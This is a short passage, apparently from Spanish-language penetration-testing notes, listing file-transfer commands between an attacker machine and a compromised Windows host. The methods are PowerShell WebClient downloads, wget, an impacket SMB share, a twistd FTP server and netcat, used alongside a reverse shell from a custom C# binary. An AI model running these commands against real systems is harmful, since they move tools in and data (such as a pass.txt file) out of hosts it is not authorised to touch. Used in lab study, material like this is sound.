


Powershell / Wget
python -m SimpleHTTPServer 8080
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.20.129:8080/pass.txt~','C:\Users\ws02\Desktop\FiletoTransfer.txt')"
wget http://192.168.20.X:8080/FiletoTransfer
SMB
impacket-smbserver -smb2support test .
copy \\192.168.20.129\test\pass.txt FiletoTransfer.txt
FTP
twistd3 -n ftp -r .
wget ftp://192.168.20.X:2121/FiletoTransfer
Netcat
nc.exe -lvp 4444 > FiletoTransfer
nc 192.168.20.X 4444 -w 3 < FiletoTransfer
Normalmente se dan dos casos en los que nos podemos encontrar diferentes maneras de transferir los archivos:
Para hacer esto vamos a aprovechar la reverse shell que teniamos con el binario que creamos en C#

